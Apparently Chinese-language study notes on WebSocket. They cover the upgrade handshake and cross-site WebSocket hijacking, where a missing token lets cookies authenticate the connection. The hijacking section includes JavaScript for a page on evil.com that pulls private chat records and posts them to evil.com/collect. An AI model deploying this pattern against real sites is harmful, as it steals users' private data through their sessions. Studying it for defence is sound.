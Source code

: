 # 一、知识点

### 0. WebSocket介绍

##### 产生原因：

​	它是实时的全双工协议，聊天、视频、游戏等场景，http半双工做不到实时需求

##### 工作原理：

1. 先建立http链接

2. 在http链接基础上，JS发起websocket建立链接

   ```
   GET /chat HTTP/1.1
   Host: example.com
   Upgrade: websocket
   Connection: Upgrade
   Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==
   Sec-WebSocket-Version: 13
   ```

   ```
   HTTP/1.1 101 Switching Protocols
   Upgrade: websocket
   Connection: Upgrade
   Sec-WebSocket-Accept: HSmrc0sMlYUkAGmm5OPpG2HaGWk=
   ```

### 1. 和http漏洞一样，不过使用的是websockethistory

### 2. WebSocket的CSRF

**产生原因：**

1. 用户已登录某站点：`wss://chat.example.com`，并持有有效的 Cookie
2. cookie是建立websocket链接的凭证
3. 建立连接没有使用token
4. 没有使用防止csrf的其他手段

**思路：**

用户访问 `evil.com`

恶意网页中嵌入 JS，尝试建立 WebSocket 连接：

```
js复制编辑const socket = new WebSocket("wss://chat.example.com/ws");

socket.onopen = () => {
  socket.send("获取所有私聊记录");
};

socket.onmessage = (event) => {
  fetch("https://evil.com/collect", {
    method: "POST",
    body: event.data,
  });
};
```

浏览器自动携带用户 Cookie 建立连接

服务端认为这是用户的正常请求，返回敏感数据

攻击者读取数据，达成劫持目的